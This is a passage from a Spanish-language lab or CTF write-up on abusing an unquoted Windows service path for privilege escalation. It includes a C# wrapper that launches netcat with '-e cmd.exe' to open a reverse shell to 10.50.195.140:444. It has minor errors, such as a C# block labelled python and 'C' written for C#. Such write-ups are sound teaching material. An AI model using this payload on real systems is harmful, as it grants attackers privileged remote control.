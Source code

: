 ![Unquoted path](/assets/images/report/unquotedpath.png)

Efectivamente como podemos ver en la imagen anterior esta máquina cuenta con servicios con su ruta ejecutable con espacios y sin comillas.

Esto nos permitirá insertar un binario que nos permita obtener una reverse shell con privilegios del sistema.

No todos los servicios con su ruta de ejecución vulnerable cuentan con privilegios sobre el sistema.
{: .notice--danger}

Para abusar de esta vulnerabilidad necesitaremos:

- Crear un archivo `(Wrapper.cs)` en `C` que nos permita obtener una reverse shell.
- Compilar el archivo `Wrapper.cs`.
- Subir `(Wrapper.cs` a la máquina víctima.
- Ponernos en escucha por un puerto
- Reiniciar el servicio vulnerable

Como de antes ya habíamos cargado `netcat` en este sistema lo volveremos a utilizar indicando su ruta absoluta y ejecutando un comando en el siguiente script.

**Wrapper.cs**

```python
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
	    ProcessStartInfo procInfo = new ProcessStartInfo("C:\\xampp\\htdocs\\resources\\uploads\\nc64.exe", "10.50.195.140 444 -e cmd.exe");
	    procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

**Compilación de `Wrapper.cs`**
